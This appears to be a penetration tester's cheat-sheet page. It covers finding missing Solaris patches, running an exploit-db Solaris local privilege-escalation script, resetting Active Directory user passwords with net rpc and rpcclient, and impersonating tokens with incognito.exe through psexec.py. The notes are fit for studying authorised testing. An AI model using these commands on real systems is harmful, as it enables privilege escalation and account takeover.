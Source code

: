 1. Make a test script containing the output of command ‘showrev -p’
2. Strip the test script of all the guff i.e. ‘root@’ etc. (just leave command output.)
3. use ctrl + h to replace ‘Patch:’ with ’’
4. Save the file to a location accessable in the linux testing machines
5. Download the latest patchdiag.xref (https://getupdates.oracle.com/reports/patchdiag.xref) and Save the file to a location accessable in the linux testing machines
6. copy the patchdiag.xref to /var/tmp/
7. use the below command to analyze the file and print out the results into a missing csv file.

pca -l all –format %p“,”%e“,”%r“,”%s“,”%b“,”%y –xrefdir=/var/tmp/ /home/tb/server1-patch.ts > server1-missing.csv

## Exploits

Solaris Patches

{% highlight PowerShell %}
showrev -p | grep 119213-10
{% endhighlight %}

Upload to the box… use your SFTP stupid.. usr/share/exploitdb/platforms/solaris/local/2543.sh chmod +x 2543.sh ./2543.sh

# Active Directory

## Change Password of AD User

Change password of a normal user with `net rpc`

{% highlight PowerShell %}
root@kali:~# net rpc password adminuser -U helpdesk -S 192.168.80.10
Enter new password for adminuser:
Enter helpdesk's password:
root@kali:~#
{% endhighlight %}

Change password of a normal user with `rpcclient`

{% highlight PowerShell %}
root@kali:~# rpcclient -U helpdesk //192.168.80.10
Enter helpdesk's password:
rpcclient $> setuserinfo2 normaluser 23 'Passw0rd!'
{% endhighlight %}

## Tokens

{% highlight PowerShell %}
proxychains psexec.py -c /tmp/incognito2/incognito.exe 'Administrator:Passw0rd!@10.100.1.22' "list_tokens -u"
{% endhighlight %}

[Tokens](https://www.notion.so/aaa27dd17e8949a6be9b9deb697e05b2)

